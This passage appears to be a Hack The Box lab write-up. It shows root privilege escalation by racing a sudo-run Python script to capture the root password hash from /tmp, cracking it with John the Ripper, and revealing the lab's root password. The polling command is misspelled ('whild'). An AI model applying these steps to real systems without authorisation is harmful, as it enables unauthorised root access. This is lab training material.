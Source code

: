 * from this code we know that if we successfully logged in the password hash will be popup in "/tmp/SSH/" so let's capture the password.

* open another SSH session and make a SSH dir in /tmp.

* run this command **whild sleep 0.1;do cat /tmp/SSH/* 2>/dev/null;done**

* then run this command **/usr/bin/sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py**

* bingo! we got the root hash.

![](https://i.ibb.co/B4nS23N/roothash.png)

* Let's crack it :

```ruby

sudo john -w=rockyou.txt root.hash

Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-05-08 18:12) 1.818g/s 930.9p/s 930.9c/s 930.9C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

![](https://i.ibb.co/d5SnZqm/passwordroot.png)

* **Root** Password --> **mercedes**.

* run this command --> su root and type the root password.

![](https://i.ibb.co/MCdH3WN/finaly.png)

* If you like this write up and want to support me to do more writeups buy me a coffe >> [https://www.buymeacoffee.com/XDev05]()

* **Refrence** : [https://www.w3schools.com/python/ref_func_exec.asp]()

**Thanks**

 <script src="https://www.hackthebox.eu/badge/103789"></script>
 






